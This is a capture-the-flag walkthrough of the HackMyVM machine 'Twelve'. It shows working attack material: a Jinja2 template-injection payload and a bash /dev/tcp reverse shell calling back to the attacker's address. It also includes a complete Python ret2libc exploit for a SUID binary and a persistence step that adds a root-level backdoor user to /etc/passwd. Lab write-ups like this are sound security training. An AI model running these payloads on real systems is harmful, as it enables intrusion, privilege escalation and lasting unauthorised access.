




Markdown · twelve_writeup_en.md

# HackMyVM — Twelve

**Platform:** HackMyVM | **Difficulty:** Medium | **OS:** Linux\
**IP:** 172.20.10.3

---

## Recon

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7
80/tcp   open  http    Apache httpd 2.4.66 ((Debian))
1212/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
```

Three ports open: SSH, Apache (default page), and something on 1212 running Werkzeug (Flask). Let's check that one.

Port 1212 hosts a **Base-12 Converter** — you submit a number via `?num=` and get the base-12 result back.

---

## SSTI → RCE

Testing for template injection:

```
?num={{7*7}}
```

The app returns a base-12 value with the expression evaluated — Jinja2 confirmed. Moving to RCE:

```
?num={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE confirmed. Catching a reverse shell:

```
?num={{request.application.__globals__.__builtins__.__import__('os').popen('bash+-c+"bash+-i+>&+/dev/tcp/172.20.10.5/4444+0>&1"').read()}}
```

```bash
nc -lvnp 4444
```

Shell received as `www-data`. Upgrading to a full TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## User Flag

```bash
cat /home/debian/user.txt
```

```
flag{user-8453eaca1baf2ad1abc7c17615fb8b91}
```

---

## Privilege Escalation — SUID Binary

Searching for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Among the standard ones, there's a custom binary: `/usr/local/bin/12`.

Running it shows an interactive menu:

1. Leak libc address
2. Symbol lookup by name
3. Buffer input
4. Exit

### Binary Analysis

```
ELF 64-bit, PIE enabled, NX enabled, no stack canary, stripped
```

Key observations:

- **Option 2** — returns the runtime address of any libc function by name → **libc leak** → calculate libc base
- **Option 3** — reads N bytes into a stack buffer (`sub rsp, 0x428`) with no size validation → **buffer overflow**
- **Option 4 (Exit)** — `main()` returns → hits our ROP chain on the stack

### ROP Chain

**Goal:** bypass ASLR and get a root shell.

**Step 1 — Leak libc base:**

```
Option 2 → "system" → get runtime address of system()
libc_base = system_addr - 0x4c330   # system offset in glibc 2.36
```

**Step 2 — Calculate gadget addresses:**

```python
pop_rdi   = libc_base + 0x27725   # pop rdi; ret
bin_sh    = libc_base + 0x196031  # "/bin/sh" string
setuid    = libc_base + 0xd5370   # setuid()
align_ret = pop_rdi + 1           # bare ret (stack alignment)
```

**Step 3 — Build the chain:**

```python
chain = [
    align_ret,       # ret gadget — aligns stack to 16 bytes (required by movaps in system())
    pop_rdi, 0,      # rdi = 0
    setuid,          # setuid(0) → permanently set UID to root
    pop_rdi, bin_sh, # rdi = "/bin/sh"
    system_addr,     # system("/bin/sh")
]
```

**Why `setuid(0)` first:** The binary is SUID, so effective UID is 0 — but `system()` forks `/bin/sh`, which drops privileges back to real UID (www-data). Calling `setuid(0)` before `system()` permanently sets real UID to 0, so the spawned shell is a root shell.

**Why the `ret` gadget:** `system()` uses `movaps`, an SSE instruction that requires 16-byte stack alignment. Without the extra `ret`, the stack is misaligned and the call crashes with SIGSEGV.

---

## Exploit

```python
import subprocess, struct, sys, time

p64 = lambda x: struct.pack("<Q", x)

def ouba_exploit():
    target = '/usr/local/bin/12'
    proc = subprocess.Popen([target], stdin=subprocess.PIPE,
        stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

    def com(msg, wait=True):
        proc.stdin.write(msg if isinstance(msg, bytes) else msg.encode())
        proc.stdin.flush()
        if wait: time.sleep(0.1)

    def recv_to(token):
        buf = b""
        while token not in buf:
            char = proc.stdout.read(1)
            if not char: break
            buf += char
        return buf

    # Stage 1: Leak system() address → calculate libc base
    recv_to(b": ")
    com("2\nsystem\n")
    line = recv_to(b"\n")
    system_leak = int(line.split(b"0x")[1].strip(), 16)

    libc_base = system_leak - 0x4c330
    pop_rdi   = libc_base + 0x27725
    bin_sh    = libc_base + 0x196031
    setuid    = libc_base + 0xd5370
    align_ret = pop_rdi + 1

    # Stage 2: Write ROP chain into the buffer via option 3
    chain = [align_ret, pop_rdi, 0, setuid, pop_rdi, bin_sh, system_leak]
    payload = b"".join(map(p64, chain))

    recv_to(b": ")
    com("3\n")
    com(f"{len(payload)}\n")
    com(payload)

    # Stage 3: Trigger the overflow by selecting Exit (option 4)
    recv_to(b": ")
    com("4\n")
    recv_to(b"Exiting.\n")

    # Persistence — backdoor user with UID 0
    setup = (
        "id; whoami\n"
        "echo 'ouba:x:0:0:root:/root:/bin/bash' >> /etc/passwd\n"
        "echo 'ouba:pwned' | chpasswd\n"
        "echo '[+] PERSISTENCE: User ouba created'\n"
        "exit\n"
    )
    com(setup)

    while True:
        out = proc.stdout.read(1)
        if not out: break
        sys.stdout.buffer.write(out)
        sys.stdout.buffer.flush()

if __name__ == "__main__":
    ouba_exploit()
```

```bash
python3 /tmp/x.py
```

```
[+] Starting exploit for target: Twelve
[*] Stage 1: Leaking Libc Address via function 'system'
    [>] Libc Address (system): 0x7f261b897330
    [>] Calculated Libc Base : 0x7f261b84b000
[*] Stage 2: Nom nom ROP buffer to stack
    [>] Payload injected (56 bytes)
[*] Stage 3: Triggering exploit via Menu 4 (Exit)
[!] Exploit successful! Establishing persistence...
uid=0(root) gid=33(www-data) groups=33(www-data)
root
[+] PERSISTENCE: User ouba created
```

---

## Root Flag

```bash
su ouba   # password: pwned
cat /root/root.txt
```

```
flag{root-a6127743d7835b6b4dd8debe12e9879a}
```

---

## Summary

| Step | Technique |
| --- | --- |
| Foothold | Jinja2 SSTI via `?num=` parameter |
| Shell | Reverse shell via `/dev/tcp` |
| PrivEsc | Buffer overflow in SUID binary `/usr/local/bin/12` |
| ASLR Bypass | libc leak via built-in symbol lookup |
| Root Shell | ret2libc: `setuid(0)` + `system("/bin/sh")` |
| Persistence | Backdoor user `ouba` (UID=0) appended to `/etc/passwd` |